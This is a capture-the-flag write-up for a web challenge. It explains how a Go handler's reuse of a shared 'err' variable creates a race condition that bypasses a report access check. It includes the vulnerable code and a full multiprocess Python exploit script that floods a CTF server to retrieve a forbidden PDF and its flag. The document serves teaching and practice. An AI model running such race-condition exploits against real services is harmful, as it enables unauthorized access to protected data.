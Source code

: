 ```yaml
---
title: "██████████"
description: "RISC intro2web challenge 7"
pubDate: "Aug 27 2025"
heroImage: "/hero/index-bank-robber_Raaquilla.webp"
tags: ["cyber", "go", "python", "ctf", "exploit"]
canonical: "https://writeups.urisc.club/web/7___________/"
---
```


## Challenge description

The ██████ with ███████ has ██████ and the ███ ███ ███████. Report ID 6 is not to be ████████.

---

## Approach

We can go to `/transparency/` and find that "Report ID 6" from the hint is referring to `Report 6 (PDF) (TO BE REVIEWED)` from the Transparency Report.

Looking at the `session.go` source code we find the vulnerability here:

```go
sockdir := "/tmp/session." + session
err := os.Mkdir(sockdir, 0o777)
if err != nil {
	panic(err)
}

http.HandleFunc("/getReport", func(w http.ResponseWriter, r *http.Request) {
	id := r.URL.Query().Get("id")
	if err = shouldAllowReport(id); err != nil {
		http.Error(w, "Invalid report!", http.StatusInternalServerError)
		return
	}

	file, err := os.Open("reports/" + id)
	if err != nil {
		http.Error(w, "Filesystem Error", http.StatusInternalServerError)
		return
	}

	data, err := io.ReadAll(io.LimitReader(file, 16777216))
	if err != nil {
		http.Error(w, "File Read Error", http.StatusInternalServerError)
		return
	}

	w.Write(data)
})
```

Specifically, `if err = shouldAllowReport(id)` doesnt use `:=` to declare and assign `err` like all the other calls, instead it uses ` =` which assigns the error to the previously declared `err` at `err := os.Mkdir(sockdir, 0o777)`.

This means that all threads of the `/getReport` http handler will use the same `err` variable, exposing a potential race condition where a request for `6.pdf` sets `err`, then a request to an allowed pdf sets it to `nil` making the `err != nil` check after `shouldAllowReport` pass for the `6.pdf` request.

We will attempt to hit the race condition by spamming requests to the server, some for 05.pdf which is allowed but returns a filesystem error to be faster than returning the pdf content, and some for 6.pdf to get our flag.

### Python implementation

```python
import requests
import os
from multiprocessing import Process, Queue

URL = "http://leftmanbrothers.ctf.urisc.club"


def worker(report_id, queue, cookie):
	sess = requests.Session()
	sess.cookies.set("sessionid", cookie)

	while True:
		r = sess.get(f"{URL}/transparency/getReport", params={"id": report_id})

		if r.status_code == 502:
			queue.put(None)
			return

		if report_id == "6.pdf" and r.status_code == 200:
			queue.put(r.content)
			return


def main():
	while True:
		queue = Queue()

		sess = requests.Session()
		r = sess.get(f"{URL}/transparency/")
		session_id = r.cookies.get("sessionid")

		print("Starting new session: ", session_id)

		processes = []
		for _ in range(14):
			p = Process(target=worker, args=("05.pdf", queue, session_id))
			processes.append(p)
			p.start()

		for _ in range(14):
			p = Process(target=worker, args=("6.pdf", queue, session_id))
			processes.append(p)
			p.start()

		flag = queue.get()

		for p in processes:
			p.terminate()
			p.join()

		queue.close()
		queue.join_thread()

		if flag is not None:
			with open("/tmp/6.pdf", "wb") as f:
				f.write(flag)

			print("Flag written to /tmp/6.pdf!")
			os.popen("open /tmp/6.pdf")
			break


if __name__ == "__main__":
	main()
```

After running for a few minutes, we get a success and find a sensitive note in 6.pdf:

> In recognition of the extraordinary discretion required, authentication for all internal<br>
> requests related to Project Backdoor will utilize the following passphrase:<br>
> RISC{leftman_liquidity_forever_9a7f42}<br>
> This string is not to be transmitted over open channels.

Our flag is:

```
RISC{leftman_liquidity_forever_9a7f42}
```
